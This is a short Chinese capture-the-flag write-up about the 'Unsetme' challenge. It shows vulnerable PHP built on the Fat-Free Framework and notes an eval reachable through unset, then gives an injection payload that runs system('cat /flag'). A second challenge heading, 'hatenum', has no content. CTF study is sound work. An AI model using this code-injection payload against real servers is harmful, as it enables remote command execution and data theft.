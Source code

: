 # 初赛
## Unsetme
```PHP
<?php  
  
// Kickstart the framework  
$f3=require('lib/base.php');  
  
$f3->set('DEBUG',1);  
if ((float)PCRE_VERSION<8.0)    trigger_error('PCRE version is out of date');  
  
highlight_file(__FILE__);  
$a=$_GET['a'];  
unset($f3->$a);  
  
$f3->run();
```

f3框架
`composer require bcosca/fatfree-core`把代码下载下来，往里找

![](attachments/Pasted%20image%2020240401211637.png)

最后在clear方法中有一个eval函数

![](attachments/Pasted%20image%2020240401211736.png)

构造对应拼接即可

payload
`?a=a['/']);system('cat /flag');//`

# 决赛
## hatenum
